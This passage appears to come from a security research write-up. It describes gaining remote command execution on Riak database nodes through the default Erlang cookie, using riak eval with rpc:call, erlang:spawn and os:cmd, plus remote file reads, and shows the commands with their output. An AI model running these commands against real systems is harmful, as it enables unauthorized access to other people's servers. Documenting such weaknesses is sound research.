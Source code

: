 ## Remote Exploitation

So the next logical step was to try this from another host and see if we could execute commands remotely. After configuring the node name and updating /etc/hosts on the remote host to ensure name resolution, it immediately replied with... **pound sand**.

```
$ erl -name test@ubuntu.test -setcookie riak -remsh riak@ubuntu.test
(riak@ubuntu.test)1> os:cmd("id;pwd").
*** ERROR: Shell process terminated! (^G to start new job) ***
```

Huh? Something was preventing us from doing a remote remsh.

But what if, instead of trying to use the erl client directly, another riak node entirely was setup with the same default cookie. Maybe the key here is to talk node-to-node instead of client-to-node, using the riak client (with it's special sauce), that way one could use it's functions like eval to call functions by way of RPC calls on the remote node.

```
$ riak eval "rpc:call('riak@ubuntu.test', os, cmd, [id])."
"uid=1000(user) gid=1000(user) groups=1000(user)\n"
```

```
$ ......... "rpc:call('riak@ubuntu.test', os, cmd, [“id;pwd”])."
escript: exception error: no match of right hand side value
```

**Bingo**...*ish*!

Apparently it doesn't like spaces, special characters or even trying other syntax, hmm. We executed a single command, which is cool but we defintely strive for more shell action then that.

So let's try a few other things.

**Alternate single command execution**

```
> "erlang:spawn('riak@ubuntu.test', os, cmd, ["id"])."
<9718.14141.56>

(exec-notify running locally on the server to observe execution)

pid=3874367 executed [id ]
```

But that still only gets us a single command :'(

**Read files and list dirs, but only in the current directory**

```
> "rpc:call('riak@ubuntu.test', file, read_file, ["test"])."
```

```
> "rpc:call('riak@ubuntu.test', file, list_dir, ["log"])."
{ok,["console.log","crash.log.0",...]}
```

